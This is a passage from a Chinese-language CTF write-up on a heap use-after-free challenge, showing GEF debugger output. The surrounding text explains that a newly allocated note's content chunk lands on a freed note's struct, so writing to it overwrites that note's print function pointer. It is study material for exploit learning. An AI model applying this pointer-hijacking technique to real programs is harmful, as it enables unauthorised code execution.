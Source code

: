```asm
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
    0x80486c2 <add_note+76>    add    DWORD PTR [eax], eax
    0x80486c4 <add_note+78>    add    BYTE PTR [ebx+0x86a0cec], al
    0x80486ca <add_note+84>    call   0x80484e0 <malloc@plt>
 →  0x80486cf <add_note+89>    add    esp, 0x10

```

**申请note2的content的内存地址为0x804b008，就是note0对应的地址，即此时我们向note2的content写内容，就会将note0的put字段覆盖。**

```asm
gef➤  n 1
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - malloc(8)=0x804b008
0x08048761 in add_note ()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0x0804b008  →  0x00000000
$ebx   : 0x0804b040  →  0x0804865b  →  <print_note_content+0> push ebp
$ecx   : 0xf7fac780  →  0x00000000
$edx   : 0x0804b008  →  0x00000000
$esp   : 0xffffcf10  →  0x00000008
$ebp   : 0xffffcf48  →  0xffffcf68  →  0x00000000
$esi   : 0xf7fac000  →  0x001b1db0
$edi   : 0xf7fac000  →  0x001b1db0
$eip   : 0x08048761  →  <add_note+235> add esp, 0x10
$cs    : 0x00000023
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
    0x8048752 <add_note+220>   mov    al, ds:0x458b0804
    0x8048757 <add_note+225>   call   0x581173df
    0x804875c <add_note+230>   call   0x80484e0 <malloc@plt>
 →  0x8048761 <add_note+235>   add    esp, 0x10
```

我们来具体检验一下，看一下覆盖前的情况，可以看到该内存块的put指针已经被置为NULL了，这是由fastbin的free机制决定的。

```asm
gef➤  x/2xw 0x804b008
0x804b008:	0x00000000	0x0804b018
```
